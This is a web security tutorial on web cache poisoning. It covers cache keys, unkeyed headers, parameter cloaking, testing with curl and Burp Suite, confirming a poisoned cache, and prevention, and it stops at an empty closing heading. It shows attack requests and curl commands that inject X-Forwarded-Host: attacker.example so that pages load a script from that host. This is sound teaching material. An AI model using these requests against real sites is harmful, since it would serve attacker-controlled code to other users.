<Callout type="default" title="Overview">
**Web Cache Poisoning** is a vulnerability in which an attacker causes a web cache to store a **malicious or attacker-influenced response**, which is then served to other users.

The vulnerability usually occurs when the **cache key does not include an input that influences the generated response**.

In other words:



If an attacker can modify the response using an input that the cache does **not** include in its cache key, the attacker may be able to poison the cached response.

The poisoned response can then be returned to other users who request the same cache key.
</Callout>

<Frame type="image" caption="Web Cache Poisoning Concept">

</Frame>

<Callout type="info">

## Web Cache Poisoning vs Web Cache Deception

These vulnerabilities are related, but they have different goals.

<Tabs>
  <Tab title="Web Cache Deception">
    ### Web Cache Deception

    The attacker attempts to make the cache store a **victim's private response**.

    ```mermaid
    graph TD
        A[Victim's Request] --> B[Private Response]
        B --> C[Cache]
        C --> D[Attacker Retrieves Victim Data]
    ```
  </Tab>
  <Tab title="Web Cache Poisoning">
    ### Web Cache Poisoning

    The attacker attempts to make the cache store an **attacker-influenced response**.

    ```mermaid
    graph TD
        A[Attacker's Request] --> B[Malicious Response]
        B --> C[Cache]
        C --> D[Other Users Receive Poisoned Response]
    ```
  </Tab>
</Tabs>

The fundamental distinction is:

```text
WCD:
    Private response → incorrectly cached

WCP:
    Malicious response → incorrectly cached
```
</Callout>

---

<Expandable title="Web Cache Fundamentals" defaultOpen={true}>
A cache stores a response and later serves that response when another request matches the same **cache key**.

A simplified flow looks like this:

<Steps>
  1. **Cache MISS Flow**
     ```mermaid
     flowchart LR
         A[Client] --> B[Web Cache]
         B -->|Cache MISS| C[Origin Server]
         C --> B
         B --> A
     ```
  2. **Cache HIT Flow**
     ```mermaid
     flowchart LR
         A[Client] --> B[Web Cache]
         B -->|Cache HIT| C[Cached Response]
         C --> A
     ```
</Steps>

The cache therefore needs a way to determine:

```text
"Does this request correspond to an existing cached response?"
```

This is the purpose of the **cache key**.
</Expandable>

---

<Expandable title="Cache Key" defaultOpen={true}>
A simplified cache key might look like:

```text
https://example.com/index.html
```

A more complex cache key could include:

```text
Scheme
Host
Path
Query String
Selected Headers
Cookies
```

For example:

```text
https://example.com/products?id=10
```

could produce a cache key such as:

```text
GET|example.com|/products|id=10
```

The exact structure depends on the caching layer.

The important concept is:

```text
If an input affects the response
but
that input is NOT included in the cache key
then
a cache poisoning condition may exist.
```
</Expandable>

---

<Warning title="Keyed vs Unkeyed Inputs">
A **keyed input** contributes to the cache key.

An **unkeyed input** does not contribute to the cache key but may still influence the application's response.

Example:

<CodeGroup>
  ```http Request
  GET / HTTP/1.1
  Host: example.com
  X-Forwarded-Host: attacker.example
  ```
  ```html Generated Response
  <script src="https://attacker.example/app.js"></script>
  ```
</CodeGroup>

but the cache key only contains:

```text
/ 
```

The simplified flow becomes:



The header influences the response:



But the header is not part of the cache key:



This creates the possibility that the modified response is stored under `/`.
</Warning>

---

<Callout type="error" title="Basic Attack Scenario">
Assume the target has:

```http
GET / HTTP/1.1
Host: example.com
```

The attacker discovers that:

```http
X-Forwarded-Host
```

influences the generated response but is not included in the cache key.

The attacker sends:

```http
GET / HTTP/1.1
Host: example.com
X-Forwarded-Host: attacker.example
```

The application generates a response influenced by:

```text
attacker.example
```

The cache then stores the response under:

```text
/
```

A normal user later requests:

```http
GET / HTTP/1.1
Host: example.com
```

and receives the cached poisoned response.


</Callout>

---

<Warning title="The Core Condition">
A useful way to think about Web Cache Poisoning is:



Therefore, finding an unusual header is **not automatically a vulnerability**.

You need to establish all of the relevant conditions:

<Steps>
  1. The input influences the response.
  2. The input is not represented in the cache key.
  3. The response is cacheable.
  4. The resulting response can affect another request using the same cache key.
</Steps>

Without these conditions, the behavior may simply be interesting rather than exploitable.
</Warning>

---

<Note title="Testing with curl">
A normal request:

```bash
curl -i https://example.com/
```

Test an input that may influence the response:

<Tabs>
  <Tab title="With X-Forwarded-Host">
    ```bash
    curl -i https://example.com/ \
      -H 'X-Forwarded-Host: attacker.example'
    ```
  </Tab>
  <Tab title="Normal Request">
    ```bash
    curl -i https://example.com/
    ```
  </Tab>
</Tabs>

Compare the responses:

```bash
curl -i https://example.com/
```

and:

```bash
curl -i https://example.com/ \
  -H 'X-Forwarded-Host: attacker.example'
```

Look for differences in:

<Accordion>
  <AccordionItem title="Differences List">
    - Response body
    - `Location`
    - HTML
    - Absolute URLs
    - Script URLs
    - CSS URLs
    - Canonical URLs
    - Open Graph metadata
    - Cache-related headers
  </AccordionItem>
</Accordion>

Example:

```text
Normal:
https://example.com/static/app.js

Modified:
https://attacker.example/static/app.js
```

This indicates that the input may influence the response.
</Note>

---

<Note title="Cache Headers">
Inspect response headers carefully.

Common headers include:

<CodeGroup>
  ```http Cache-Control
  Cache-Control: public, max-age=3600
  ```
  ```http Age
  Age: 120
  ```
  ```http X-Cache HIT
  X-Cache: HIT
  ```
  ```http X-Cache MISS
  X-Cache: MISS
  ```
  ```http CF-Cache-Status
  CF-Cache-Status: HIT
  ```
</CodeGroup>

The exact headers depend on the CDN or caching infrastructure.

A response such as:

```http
Cache-Control: public, max-age=3600
```

indicates that the response may be intended for shared caching.

However, the presence or absence of a particular header does not by itself prove that a response was cached.
</Note>

---

<Note title="Cache Hit / Cache Miss">
During testing, compare the same request multiple times.

<Tabs>
  <Tab title="First Request (MISS)">
    ```http
    GET / HTTP/1.1
    Host: example.com
    ```
    Possible response:
    ```http
    X-Cache: MISS
    ```
  </Tab>
  <Tab title="Repeat Request (HIT)">
    ```http
    GET / HTTP/1.1
    Host: example.com
    ```
    Possible response:
    ```http
    X-Cache: HIT
    ```
  </Tab>
</Tabs>

This can indicate that the response was stored and reused.

A simplified testing flow:


</Note>

---

<Warning title="Cache Buster">
Existing cache entries can make testing confusing.

A unique query parameter can be used to create a new cache key:

<CodeGroup>
  ```http Request 1
  GET /?cb=123456
  ```
  ```http Request 2
  GET /?cb=789012
  ```
</CodeGroup>

If the cache includes the query string in its key, these requests may be treated as different cache entries.

In Burp:

```text
/?cb=<unique-value>
```

This is useful when determining whether a response is actually being stored.
</Warning>

<Note title="Unkeyed Header Testing">
Headers are particularly interesting because some infrastructure uses them to construct responses while excluding them from the cache key.

Common examples worth investigating include:

```http
X-Forwarded-Host
X-Forwarded-Scheme
X-Forwarded-Proto
X-Forwarded-Port
X-Host
X-Forwarded-Server
X-Original-URL
X-Rewrite-URL
```

These are **test candidates**, not universal vulnerabilities.

Example:

```http
GET / HTTP/1.1
Host: example.com
X-Forwarded-Host: attacker.example
```

If the response changes:



the next question is whether the cache key changes as well.
</Note>

<Warning title="Host Header Based Cache Poisoning">
The `Host` header is particularly important because applications frequently use host information to generate absolute URLs.

Example:

```http
GET / HTTP/1.1
Host: attacker.example
```

If the application trusts the supplied host and generates:

```html
<script src="https://attacker.example/app.js"></script>
```

while the cache identifies the resource using another representation of the request, a cache poisoning condition may exist.



This can become particularly dangerous when the attacker-controlled value is reflected into:

<Accordion>
  <AccordionItem title="Dangerous Reflection Targets">
    - Script URLs
    - Stylesheet URLs
    - Redirects
    - Canonical URLs
    - HTML
    - Security-sensitive links
  </AccordionItem>
</Accordion>
</Warning>

<Warning title="Cache Key Injection">
Another class of problems occurs when an attacker can manipulate values that affect how the cache constructs its key.

The security boundary can be represented as:



If the cache and application normalize or parse a request differently, an attacker may be able to cause:



This type of discrepancy can produce unexpected cache behavior.
</Warning>

<Note title="Query Parameter Handling">
Caches do not necessarily treat every query parameter equally.

For example:

```text
/search?q=test
```

might produce one cache key:

```text
/search?q=test
```

while another configuration might ignore selected parameters:

```text
/search?q=test&utm_source=x
```

could still map to:

```text
/search?q=test
```

This becomes interesting when an ignored parameter can influence the origin response.


</Note>

<Warning title="Parameter Cloaking">
**Parameter cloaking** occurs when the cache and origin server disagree about how query parameters are parsed.

Example:

```text
/page?foo=bar&utm_source=x
```

The cache may remove or ignore one parameter while the application still processes it.

This can create:

<Columns>
  <Column>
    **Cache:**
    ```text
    /page?foo=bar
    ```
  </Column>
  <Column>
    **Application:**
    ```text
    /page?foo=bar&utm_source=x
    ```
  </Column>
</Columns>

If `utm_source` influences the response but is excluded from the cache key, it may become a candidate for cache poisoning.

The exact behavior depends heavily on the cache implementation and its parameter normalization rules.
</Warning>

---

<Note title="Response Differences">
When testing an input, compare:

<Tabs>
  <Tab title="Request A (Baseline)">
    ```http
    GET / HTTP/1.1
    Host: example.com
    ```
  </Tab>
  <Tab title="Request B (Modified)">
    ```http
    GET / HTTP/1.1
    Host: example.com
    X-Forwarded-Host: attacker.example
    ```
  </Tab>
</Tabs>

Check whether the response contains:

```text
attacker.example
```

or another attacker-controlled value.

A useful comparison is:



Response modification alone does **not** prove cache poisoning.
</Note>

---

<Callout type="error" title="Confirming the Poison">
A strong confirmation requires demonstrating that the attacker-controlled response is stored and subsequently served to a request that does not contain the malicious input.

Conceptually:



Example:

<Tabs>
  <Tab title="Poisoning Request">
    ```http
    GET / HTTP/1.1
    Host: example.com
    X-Forwarded-Host: attacker.example
    ```
  </Tab>
  <Tab title="Clean Request">
    ```http
    GET / HTTP/1.1
    Host: example.com
    ```
  </Tab>
</Tabs>

If the clean request receives the attacker-influenced response, the cache has effectively been poisoned.
</Callout>

---

<Callout type="default" title="Detection Methodology">
A practical methodology can be summarized as:



The core logic is:

```text
Input affects response
         +
Input is not in cache key
         +
Response is cacheable
         +
Poisoned response is served to another request
         =
Web Cache Poisoning
```
</Callout>

---

<Note title="Burp Suite Workflow">
A practical workflow in Burp Suite:

<Steps>
  1. Proxy
  2. Identify cacheable requests
  3. Send request to Repeater
  4. Establish baseline response
  5. Modify one input
  6. Compare response
  7. Determine whether input is keyed
  8. Add cachebuster
  9. Send poisoning request
  10. Send clean request
  11. Compare responses
</Steps>

**Param Miner** can be useful for discovering hidden inputs and testing cache-related behavior.
</Note>

<Note title="Useful Indicators">
During testing, pay attention to:

<Columns>
  <Column>
    ### Response Headers
    ```http
    Age:
    X-Cache:
    X-Cache-Hits:
    CF-Cache-Status:
    Cache-Control:
    Vary:
    ```
  </Column>
  <Column>
    ### Response Content
    Look for attacker-controlled values inside:
    ```text
    HTML
    JavaScript URLs
    CSS URLs
    Redirect locations
    Canonical URLs
    Absolute links
    Open Graph metadata
    ```
  </Column>
  <Column>
    ### Request Inputs
    Investigate:
    ```text
    Headers
    Query parameters
    Path components
    Host-related headers
    Forwarding headers
    Cookies
    ```
  </Column>
</Columns>

The exact behavior depends on the application's architecture and caching infrastructure.
</Note>

<Warning title="Important Testing Considerations">
A response being cached does not automatically mean that it is vulnerable.

Likewise, an input changing the response does not automatically mean that the cache is poisoned.

You must establish the relationship:



In particular, determine whether:

```text
Input affects response
         ↓
Input excluded from cache key
         ↓
Response cached
         ↓
Clean request receives modified response
```

That last step is what turns an interesting parser behavior into a practical cache poisoning vulnerability.
</Warning>

<Tip title="Prevention">
Applications and caching infrastructure should avoid allowing attacker-controlled inputs to influence cacheable responses unless those inputs are correctly represented in the cache key.

Recommended controls include:

<Steps>
  1. Do not cache personalized or user-specific responses in shared caches.
  2. Use appropriate `Cache-Control` directives.
  3. Validate and normalize `Host` and forwarding headers.
  4. Do not blindly trust `X-Forwarded-*` headers from untrusted clients.
  5. Ensure cache keys account for every input that can materially change a response.
  6. Keep cache and origin URL parsing behavior consistent.
  7. Avoid caching responses that reflect attacker-controlled input.
  8. Configure CDN cache rules explicitly rather than relying entirely on defaults.
  9. Use `Vary` appropriately where request headers legitimately affect the representation.
</Steps>

Example:

```http
Cache-Control: private, no-store
```

can be appropriate for responses containing sensitive or user-specific information, depending on the application's requirements.
</Tip>

<Callout type="default" title="Key Takeaways">
